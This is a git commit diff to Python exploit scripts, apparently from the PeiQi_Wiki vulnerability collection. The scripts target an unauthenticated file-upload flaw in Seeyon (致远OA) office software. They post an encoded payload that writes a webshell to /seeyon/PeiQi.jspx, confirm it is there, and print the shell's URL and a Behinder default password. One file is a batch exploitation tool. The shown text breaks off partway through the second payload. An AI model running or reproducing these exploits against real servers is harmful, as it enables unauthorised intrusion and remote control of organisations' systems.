

更新 致远OA 未授权访问 ajaxAction formulaManager 文件上传漏洞文档 编码脚本 检测POC和EXP:fire:

Changed region(s): [[0.0, 0.1674, 1.0, 0.614], [0.0, 0.0, 1.0, 0.1395]]

diff --git a/PeiQi_Wiki/OA产品漏洞/致远OA/POC/致远OA 登录绕过任意文件上传.py b/PeiQi_Wiki/OA产品漏洞/致远OA/POC/致远OA 登录绕过任意文件上传.py
@@ -17,23 +17,25 @@ def POC_1(target_url):
         "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
         "Content-Type": "application/x-www-form-urlencoded",
     }
-    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00"
+    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00"
     requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
     response = requests.post(url=vuln_url_2, headers=headers, data=data, verify=False)
     test_webshell(target_url)
 
 
 def test_webshell(target_url):
-    webshell_url = target_url + "/seeyon/SeeyonUpdate1.jspx"
+    webshell_url = target_url + "/seeyon/PeiQi.jspx"
     headers = {
         "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
     }
     try:
         requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
         response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
-        print("\033[32m[o] 正在请求 : {}/seeyon/SeeyonUpdate1.jspx\033[0m".format(target_url))
+        print("\033[32m[o] 正在请求 : {}/seeyon/PeiQi.jspx\033[0m".format(target_url))
         if response.status_code == 200:
-            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/SeeyonUpdate1.jspx\033[0m".format(target_url,target_url))
+            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/PeiQi.jspx\033[0m".format(target_url,target_url))
+            print("\033[32m[o] webshell地址：{}/seeyon/PeiQi.jspx \033[0m".format(target_url))
+            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
         else:
             print("\033[31m[x] 目标漏洞无法利用，写入失败 \033[0m")
             sys.exit(0)
@@ -42,26 +44,7 @@ def test_webshell(target_url):
         print("\033[31m[x] 目标漏洞无法利用，写入失败 {} \033[0m".format(e))
         sys.exit(0)
 
-def test_webshell_ok(target_url):
-    webshell_url = target_url + "/seeyon/SeeyonUpdate1.jspx"
-    headers = {
-        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
-    }
-    try:
-        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
-        response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
-        if response.status_code == 200:
-            print("\033[32m[o] 目标 {} 可能已经被其他人成功上传 webshell \033[0m".format(target_url))
-            print("\033[32m[o] webshell地址：{}/seeyon/SeeyonUpdate1.jspx \033[0m".format(target_url))
-            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
-        else:
-            pass
-
-    except Exception as e:
-        print("\033[31m[x] 请求报错 \033[0m".format(e))
-
 if __name__ == '__main__':
     title()
     target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
-    test_webshell_ok(target_url)
     POC_1(target_url)

diff --git a/PeiQi_Wiki/OA产品漏洞/致远OA/Scan/致远OA 未授权文件上传 批量EXP.py b/PeiQi_Wiki/OA产品漏洞/致远OA/Scan/致远OA 未授权文件上传 批量EXP.py
@@ -18,17 +18,17 @@ def POC_1(target_url):
         "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
         "Content-Type": "application/x-www-form-urlencoded",
     }
-    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00"
+    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C